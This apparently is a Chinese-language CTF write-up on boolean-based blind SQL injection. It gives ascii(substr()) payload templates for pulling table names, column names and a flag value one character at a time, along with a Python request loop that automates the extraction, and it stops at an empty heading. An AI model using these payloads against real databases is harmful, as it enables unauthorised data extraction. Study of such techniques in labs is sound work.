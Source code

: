 直接获取表

```
table_name = "ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))=%d"
```

```
def get_data():
    response=''
    for i in range(1,10):
        for j in range(31,128):
            payload=table_name%(i,j)
            r=requests.get(url+payload)
            print(r.url)
            if 'query_success' in r.text:
                response+=chr(j)
                print(f"结果: {response}")
                break
            if j==127:
                print('不需要再查询了')
                return
```

![](assets/PixPin_2025-05-23_21-33-37.png)

## 获取表的字段

```
column_name = "ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),%d,1))=%d"
```

![](assets/PixPin_2025-05-23_21-38-03.png)

## 获取数据

```
data='ascii(substr((select flag from flag),%d,1))=%d'
```



## 异步获取
